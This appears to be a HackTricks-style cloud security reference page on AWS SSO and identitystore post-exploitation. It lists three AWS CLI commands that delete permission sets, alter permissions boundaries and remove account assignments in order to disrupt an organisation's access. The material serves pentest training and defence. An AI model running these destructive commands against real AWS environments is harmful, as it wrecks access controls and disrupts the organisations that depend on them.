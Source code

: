# AWS - SSO & identitystore Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SSO & identitystore

For more information check:

{{#ref}}
../aws-services/aws-iam-enum.md
{{#endref}}

### `sso:DeletePermissionSet` | `sso:PutPermissionsBoundaryToPermissionSet` | `sso:DeleteAccountAssignment`

These permissions can be used to disrupt permissions:

```bash
aws sso-admin delete-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>

aws sso-admin put-permissions-boundary-to-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --permissions-boundary-policy-arn <PolicyARN>

aws sso-admin delete-account-assignment --instance-arn <SSOInstanceARN> --target-id <TargetID> --target-type <TargetType> --permission-set-arn <PermissionSetARN> --principal-type <PrincipalType> --principal-id <PrincipalID>
```

{{#include ../../../banners/hacktricks-training.md}}




